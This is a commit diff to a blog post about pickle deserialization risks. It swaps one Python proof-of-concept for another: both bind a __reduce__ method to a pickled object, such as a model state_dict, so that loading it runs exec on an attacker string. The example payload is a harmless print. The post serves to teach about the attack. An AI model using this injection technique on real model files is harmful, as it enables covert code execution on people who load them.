

Before and after one commit to gitlost-murali/blogs, a Jekyll site: the page built from _posts/2025-01-13-the-pickle-problem.md, in a window 1280 px wide and 1400 px high, scrolled down 2557 px. Shown: the whole window at 92% size, without its empty margins (0-999 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; cached includes are drawn as plain includes; comment, search, counter and statistics services are not loaded.

Commit message:
update snippet

````diff
--- a/_posts/2025-01-13-the-pickle-problem.md
+++ b/_posts/2025-01-13-the-pickle-problem.md
@@ -43,31 +43,21 @@ If you serialize this class object and load the object back, you will see the re
 In case of a man-in-the-middle attack where  model classes are already defined and their objects are pickled, we can bind the malicious `reduce` function code to the pickled object. Here's how an attacker might bind the malicious code to a given object to execute harmful code:
 ```python
 
-class MaliciousObject:
+def inject_malicious_code(obj, code_str):
+    # Define a custom reduce function
+    def reduce(self):
+        return (exec, (code_str,))
 
-	def __init__(self, original_obj, code_str):
-		self.original_obj = original_obj
-		self.code_str = code_str
-
-	def __reduce__(self):
-		"""
-		This func is called when the object is deserialized.
-		This will call `execute_and_return` func which
-		executes the malicious code and also returns the original
-		object for reconstruction.
-		"""
-		return (self.execute_and_return, (self.code_str, self.original_obj))
-
-  	@staticmethod
-	def execute_and_return(code_str, obj):
-		exec(code_str)
-		return obj
+    # Bind the custom reduce function to the object's __reduce__ method
+    bound_reduce = reduce.__get__(obj, obj.__class__)
+    setattr(obj, "__reduce__", bound_reduce)
+    return obj
 
 MALICIOUS_CODE_STR = """
 print('hello')
 """
 
-state_dict = MaliciousObject(state_dict, MALICIOUS_CODE_STR)
+state_dict = inject_malicious_code(state_dict, MALICIOUS_CODE_STR)
 ```
 
 Let's extend this to a critical scenario by replacing the print statement.
````
